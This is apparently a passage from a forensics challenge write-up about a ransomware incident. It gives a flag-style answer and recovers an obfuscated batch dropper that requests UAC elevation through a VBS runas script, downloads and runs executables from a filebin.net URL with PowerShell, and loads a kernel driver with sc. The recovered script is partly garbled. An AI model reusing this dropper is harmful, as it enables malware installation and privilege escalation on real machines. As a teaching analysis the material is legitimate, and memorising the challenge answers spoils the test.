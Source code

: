 ```

Answer Q9) fJSW4lQS.sys_33241f9fe44881e934c5e083389ebc1e_010a74fa8bdceda1de467132b1cddbdf
```
### Question 10

Q10) What is the C2 framework used, and what is the file name of the executable, what is the sleep technique used?

Format : C2-framework(all-lowercase)_executable-name_sleep-technique(case-sensitive)

The obfuscated batch file (`sAmhUAB2.bat`) file which was dropped by `WDjmIG5L.exe` downloaded and executed 2 executables the ransomware `TwCSXWiv.exe` and  `cKGzX4VI.exe` which can be either tracked with behaviour analysis or looking into the timeline we made. 

we can also recover it atleast partially like this with some deobfuscation and pattern matching

```bat
??&cls
@%pUBlIcs983%%PUBLicGCHo^ of^%PuBlICt616%f
SEt R^=Jg^%pUBLIcu^gtGXz%pUBLIctw%pUBLIch^hm%pUBLIcb^S^HI^O^A
^%pUBlICS^L%pUBliCG517%^%publIct
@^e^c~15^O ^On
@echo off

>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"

if %errorlevel% neq 0 (
    echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"
    echo UAC.ShellExecute "%~s0" "" "" "runas" 1 >> "%temp%\getadmin.vbs"
    "%temp%\getadmin.vbs"
    exit /B
)
cd  C\Windows\Temp
PowerShell -Command "iw1 'https://filebin.net/lfc6u585h3jmqfpp/ware' -OutFile TwCSXWiv.exe"
.\TwCSXWiv.exe
PowerShell -Command "iw1 'https://filebin.net/lfc6u585h3jmqfpp/cKGzX4VI' -OutFile cKGzX4VI.exe "
.\cKGzX4VI.exe


SET dr=systm
SET dlp=%APPDATA%\Local\WndService\f~0SW4lQS.sys

sc create %dr% type= kernel start= demand DisplayName= "TaT" binPath= %dlp%

sc start %dr%

sc stop %dr%


@echo off
set a = %%~i
set a = % + %~i"r = % + %~i"%
set a = %a%
aaaaaaaaaaaaaaaaaaaaaaaaaaaaab
```
